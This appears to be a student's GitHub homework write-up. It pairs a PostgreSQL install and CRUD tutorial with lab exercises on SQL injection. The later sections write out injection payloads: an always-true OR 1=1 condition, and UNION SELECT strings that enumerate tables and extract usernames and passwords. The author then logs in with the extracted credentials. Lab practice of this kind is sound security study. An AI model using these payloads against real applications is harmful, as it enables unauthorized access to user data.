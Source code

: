 # h5

PostgreSQL Install and One Table Database – SQL CRUD tutorial for Ubuntu

Three line install
$ sudo apt-get update
$ sudo apt-get -y install postgresql
$ sudo systemctl start postgresql # needed in 2023
$ sudo -u postgres createdb $(whoami)
$ sudo -u postgres createuser $(whoami)
The trick is to use your Linux system username for PostgreSQL database and PostgreSQL user. Then authentication is automatic.

$ psql

table

tero=> CREATE TABLE students (id SERIAL PRIMARY KEY, name VARCHAR(200));
CREATE TABLE

insert

tero=> INSERT INTO students(name) VALUES ('Tero');
INSERT 0 1

select

tero=> SELECT * FROM students;

update

tero=> UPDATE students SET name='Tero Karvinen' WHERE name='Tero';

UPDATE 1

delete

tero=> DELETE FROM students WHERE name='Liisa';
DELETE 1
tero=> SELECT * FROM students;

SQL injection

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve.

A successful SQL injection attack can result in unauthorized access to sensitive data, such as:

Passwords.
Credit card details.
Personal user information.

You can detect SQL injection manually using a systematic set of tests against every entry point in the application. 

a.)
ensiksi asensin ja käynnistin postgreSQL tietokannan

![alku](https://github.com/AkiAleksi/h5/assets/112399816/194cd8be-a30c-43e2-a335-f66ab08e8ec7)


Sen jälkeen loin tietokannan ja käyttäjän.


$ sudo -u postgres createdb kali


$ sudo -u postgres createuser kali


Tein käyttäjästä kali databasen ownerin komennolla:



sudo -u postgres psql -c "ALTER DATABASE kali OWNER TO kali;"



![alku3](https://github.com/AkiAleksi/h5/assets/112399816/59879e3a-48f4-4867-9e67-2102bd76bae2)


Loin uuden taulun:

CREATE TABLE students (id SERIAL PRIMARY KEY, name VARCHAR(200));

![1jee](https://github.com/AkiAleksi/h5/assets/112399816/d33a7880-6ad9-4c9e-b5be-d437df410e65)


CRUD
Loin uuden nimen tauluun.

INSERT INTO students(name) VALUES ('Aki');

Sen jälkeen tein Read kohdan komennolla:

SELECT * FROM students;

![2jee](https://github.com/AkiAleksi/h5/assets/112399816/0d4d2d24-e0f2-4c7d-b2b1-3793d2d516b6)


Päivitin nimen Aki. Nimeen Aki Hietamäki:

UPDATE students SET name='Aki Hietamäki' WHERE name='Aki Hietamäki'; 

![3jee](https://github.com/AkiAleksi/h5/assets/112399816/c6b810fb-84b6-487a-a866-d2884351726e)




Sen jälkeen poistin:

DELETE FROM students WHERE name='Aki';


![4jee](https://github.com/AkiAleksi/h5/assets/112399816/0d65a9ca-9814-4d9f-be7b-bd7765676269)


b.)

SELECT * FROM Users WHERE id = 10 OR 1=1;

Yläpuolella oleva SQL lause palauttaa kaikki rivit "Users" taulusta,
koska OR 1=1 on aina tosi. Vaikka id 10 ei ole mitään sisältöä.


id avain on valmiina ohjelmassa. Käyttäjän syöte on id:n arvo ja johon on jatkettu OR lause.


![xdddd](https://github.com/AkiAleksi/h5/assets/112399816/e7b429b9-d019-493d-a320-c45d753e8f7e)

c.)


![Screenshot 2023-11-24 at 14 12 37](https://github.com/AkiAleksi/h5/assets/112399816/f305305f-dbc7-41e8-b524-3ba3e7f4d075)



![Screenshot 2023-11-24 at 14 13 13](https://github.com/AkiAleksi/h5/assets/112399816/c700b799-ade3-4bb8-a589-90c5960d7900)



d.)



![Screenshot 2023-11-24 at 14 22 13](https://github.com/AkiAleksi/h5/assets/112399816/6501edc1-4712-43ec-8f7b-467a8b1a8e89)



![Screenshot 2023-11-24 at 14 23 20](https://github.com/AkiAleksi/h5/assets/112399816/810df58f-6ba5-4ae5-82f7-c5a7e251c392)


e.)




![Screenshot 2023-11-24 at 15 17 33](https://github.com/AkiAleksi/h5/assets/112399816/b5504c02-1e81-435c-8e0a-71fd18f03f08)




f.)


![Screenshot 2023-11-24 at 16 37 05](https://github.com/AkiAleksi/h5/assets/112399816/34d1186f-c68b-4e5b-bddb-0fd5ed2d287a)





![Screenshot 2023-11-24 at 16 37 50](https://github.com/AkiAleksi/h5/assets/112399816/ffd305ee-84c6-4854-8f9b-ac9d991ad8f1)







![Screenshot 2023-11-24 at 16 38 20](https://github.com/AkiAleksi/h5/assets/112399816/87f1af3d-33dc-4e81-aac8-655b4e6d5826)



g.)


Etsin kaikki taulut tietokannasta

'union+select+table_name,'123'+from+all_tables--

![user1](https://github.com/AkiAleksi/h5/assets/112399816/088dba52-1367-410c-a349-a9108927e78d)



![user2](https://github.com/AkiAleksi/h5/assets/112399816/1993c581-7e6a-4209-a78e-a30807da7946)


Löytyi PASSWORD_ ja USERNAME_ sarakkeet

![Screenshot 2023-11-25 at 12 53 09](https://github.com/AkiAleksi/h5/assets/112399816/75ec55ae-f133-4273-a09f-b0a3406db76e)

'+union+select+PASSWORD_RNBGTX,USERNAME_ECTSRI+from+USERS_VYMYAO--


![info](https://github.com/AkiAleksi/h5/assets/112399816/2e9d88f1-7fb7-44bc-8d93-30671a33410d)


Kirjauduin tiedoilla MY account


![okkkk](https://github.com/AkiAleksi/h5/assets/112399816/344ac34f-7b55-4826-bfc8-baf0cd398285)


h.)

Katsoin läpikävelyn kyseisestä tehtävästä.

'UNION+SELECT+NULL,NULL--


internal server error

Lisäsin NULL niin kauan, että ei tullut erroria.

'UNION+SELECT+NULL,NULL,NULL,NULL--


![Screenshot 2023-11-25 at 13 38 10](https://github.com/AkiAleksi/h5/assets/112399816/fcbcb7f7-1bb3-4f1f-a7af-4aa00c957c6a)






![Screenshot 2023-11-25 at 13 34 49](https://github.com/AkiAleksi/h5/assets/112399816/5f0a0222-1079-415b-9746-a702579cc0c6)

i.)


![ggg](https://github.com/AkiAleksi/h5/assets/112399816/3b1b10d9-04ca-43c7-b75b-b905b4961710)




![Screenshot 2023-11-25 at 14 02 58](https://github.com/AkiAleksi/h5/assets/112399816/1d823a47-037a-41ec-ba18-5000374d0c37)



![Screenshot 2023-11-25 at 14 07 55](https://github.com/AkiAleksi/h5/assets/112399816/2035889e-45f1-4cec-93b7-696b26b7357f)

j.)




![admin1](https://github.com/AkiAleksi/h5/assets/112399816/87743028-bcfd-493f-92f9-4e1e5e23769b)





![kkkkkkkkkk](https://github.com/AkiAleksi/h5/assets/112399816/ce1024f6-f6f4-4688-a31e-710b8393cee5)






![ratkaisu](https://github.com/AkiAleksi/h5/assets/112399816/2bc8f513-880a-47d8-a856-45cdc6689196)

